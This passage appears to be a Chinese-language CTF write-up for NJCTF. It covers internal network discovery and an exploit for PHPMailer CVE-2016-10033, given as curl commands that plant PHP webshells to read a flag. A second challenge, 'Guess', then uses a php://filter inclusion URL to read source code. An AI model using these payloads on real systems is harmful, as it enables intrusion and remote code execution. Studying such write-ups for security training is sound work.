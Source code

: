 ![shell1](https://momomoxiaoxi.com/img/post/NJCTF/shell1.png)

 翻一下，还是没有找到flag。自然接下来就应该是内网渗透了。

这里有一个小技巧，使用arp -nv可以快速探测内网(当然你也可以使用curl来获得远程的一个py扫描脚本，然后扫描)

```
arp -nv
arp -nv
Address                  HWtype  HWaddress           Flags Mask            Iface
172.17.42.1              ether   72:1d:76:57:41:32   C                     eth0
172.26.0.20              ether   72:1d:76:57:41:32   C                     eth0
172.17.0.1               ether   02:42:ac:11:00:01   C                     eth0
172.17.0.19              ether   02:42:ac:11:00:13   C                     eth0
Entries: 4	Skipped: 0	Found: 4
```

都测试一下。

可以看到在172.17.0.19存活一个Mail SYSTEM

![mailsystem](https://momomoxiaoxi.com/img/post/NJCTF/mailsystem.png)

搜一波，学习一下

[https://blog.chaitin.cn/phpmailer-cve-2016-10033/](https://www.waitalone.cn/imagemagick-poc.html)

这里的根目录没办法写，存在uploads目录，但是uploads目录下一句话没办法执行(貌似是因为;的原因，可以传入`<?php system($_GET[test]);?>` 这种格式去绕过），所以可以直接用system

```Sh
curl http://172.17.0.19 -d "subject=<?php system('ls ./');?>&email=aaa( -X /var/www/html/uploads/xiaoxi1.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi1.php
curl http://172.17.0.19 -d "subject=<?php system('ls ../');?>&email=aaa( -X /var/www/html/uploads/xiaoxi2.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi2.php
curl http://172.17.0.19 -d "subject=<?php system('cat ../flaaaaaaag.php');?>&email=aaa( -X /var/www/html/uploads/xiaoxi3.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi3.php
```

得到flag

![belogical](https://momomoxiaoxi.com/img/post/NJCTF/belogical.png)

### Guess

这种url很容易就能想到可能是文件包含或者伪协议读取

http://218.2.197.235:23735/index.php?page=php://filter/read=convert.base64-encode/resource=upload

读源码

```php

<?php
error_reporting(0);
function show_error_message($message)
{
    die("<div class=\"msg error\" id=\"message\">
    <i class=\"fa fa-exclamation-triangle\"></i>$message</div>");
}

function show_message($message)
{
    echo("<div class=\"msg success\" id=\"message\">
    <i class=\"fa fa-exclamation-triangle\"></i>$message</div>");
}

```